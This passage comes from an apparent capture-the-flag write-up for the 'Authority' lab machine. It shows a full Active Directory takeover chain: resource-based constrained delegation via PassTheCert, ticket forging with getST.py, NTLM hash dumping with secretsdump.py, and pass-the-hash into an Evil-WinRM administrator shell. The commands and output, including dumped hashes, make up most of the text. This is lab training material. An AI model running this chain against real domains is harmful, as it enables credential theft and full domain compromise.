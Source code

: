The intended way to exploit this is to use the `write_rbcd` action to
give the fake computer `0xdf$` delegration rights over the DC:



    oxdf@hacky$ python PassTheCert/Python/passthecert.py -action write_rbcd -delegate-to 'AUTHORITY$' -delegate-from '0xdf$' -crt administrator.crt -key administrator.key -domain authority.htb -dc-ip 10.10.11.222
    Impacket v0.10.1.dev1+20230608.100331.efc6a1c3 - Copyright 2022 Fortra

    [*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
    [*] Delegation rights modified successfully!
    [*] 0xdf$ can now impersonate users on AUTHORITY$ via S4U2Proxy
    [*] Accounts allowed to act on behalf of other identity:
    [*]     0xdf$        (S-1-5-21-622327497-3269355298-2248959698-11602)



I'll make sure my clock is in sync with Authority:



    oxdf@hacky$ sudo ntpdate 10.10.11.222
    27 Nov 18:28:15 ntpdate[588490]: step time server 10.10.11.222 offset -14216.802932 sec



And get a Silver Ticket:



    oxdf@hacky$ getST.py -spn 'cifs/AUTHORITY.AUTHORITY.HTB' -impersonate Administrator 'authority.htb/0xdf$:0xdf0xdf0xdf'
    Impacket v0.10.1.dev1+20230608.100331.efc6a1c3 - Copyright 2022 Fortra

    [-] CCache file is not found. Skipping...
    [*] Getting TGT for user
    [*] Impersonating Administrator
    [*]     Requesting S4U2self
    [*]     Requesting S4U2Proxy
    [*] Saving ticket in Administrator.ccache



With this, I can dump the NTLM hashes from the DC:



    oxdf@hacky$ KRB5CCNAME=Administrator.ccache secretsdump.py -k -no-pass authority.htb/administrator@authority.authority.htb -just-dc-ntlm
    Impacket v0.10.1.dev1+20230608.100331.efc6a1c3 - Copyright 2022 Fortra

    [*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
    [*] Using the DRSUAPI method to get NTDS.DIT secrets
    Administrator:500:aad3b435b51404eeaad3b435b51404ee:6961f422924da90a6928197429eea4ed:::
    Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    krbtgt:502:aad3b435b51404eeaad3b435b51404ee:bd6bd7fcab60ba569e3ed57c7c322908:::
    svc_ldap:1601:aad3b435b51404eeaad3b435b51404ee:6839f4ed6c7e142fed7988a6c5d0c5f1:::
    AUTHORITY$:1000:aad3b435b51404eeaad3b435b51404ee:40411717d1f7710c4ba1e3f5e1906d90:::
    0xdf$:11602:aad3b435b51404eeaad3b435b51404ee:81cebe41108f5b1c36f3dd3c01dccfc3:::
    [*] Cleaning up... 



That hash works over Evil-WinRM:



    oxdf@hacky$ evil-winrm -i authority.htb -u administrator -H 6961f422924da90a6928197429eea4ed

    Evil-WinRM shell v3.4

    Info: Establishing connection to remote endpoint

    *Evil-WinRM* PS C:\Users\Administrator\Documents>







